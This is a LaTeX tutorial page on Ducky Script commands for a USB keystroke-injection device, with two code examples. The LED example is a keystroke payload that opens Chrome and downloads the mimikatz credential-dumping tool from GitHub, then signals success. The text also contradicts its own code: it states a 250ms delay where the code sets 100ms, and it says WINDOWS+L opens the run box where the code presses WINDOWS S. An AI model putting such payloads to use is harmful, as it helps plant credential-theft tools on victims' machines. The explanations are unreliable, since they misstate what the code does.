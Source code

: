 \documentclass[a4paper,12pt]{article}
\begin{document}
\newpage

\subsubsection{DEFAULTDELAY \& DEFAULT\_DELAY}

\begin{figure}[htb]
\begin{small}
\begin{lstlisting}[language=Ducky]
REM set default delay to 250, this will cause all commands being executed once every 250ms
DEFAULTDELAY 100
WINDOWS R
STRING notepad.exe
ENTER
STRING Every command is being executed after a delay of 250ms
\end{lstlisting}
\end{small}
\caption{DEFAULTDELAY Example}\label{defaultdelay_example}
\end{figure}

in the code above (figure \ref{defaultdelay_example}), there is no initial delay, but the default delay is moved to 100ms, which means that every command will delay by 100ms before execution(so that the device can catch up), then presses WINDOWS+R (opens run box), then type notepad.exe, presses enter.

Note that the default delay only applies to one file. Therefore if you import a different file, the custom default\_delay won't apply to the imported file

\subsubsection{LED}

\begin{figure}[htb]
\begin{small}
\begin{lstlisting}[language=Ducky]
REM wait 500ms, then update LED status once successfully installed mimikatz virus from the web
DELAY 500
WINDOWS S
STRING chrome
ENTER
STRING https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
ENTER
DELAY 300

REM once the virus downloads, turn on the LED of USB Pico Ducky
LED
\end{lstlisting}
\end{small}
\caption{LED Example}\label{led_example}
\end{figure}

in the code above (figure \ref{led_example}), there is an initial delay of 500ms. Then the WINDOWS+L button is pressed (run box), chrome is typed into the run box, then ENTER is pressed. Now that google chorme is open, this link is opened: \nolinkurl{https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip} which downloads the zip file of the mimikatz virus.
\end{document}
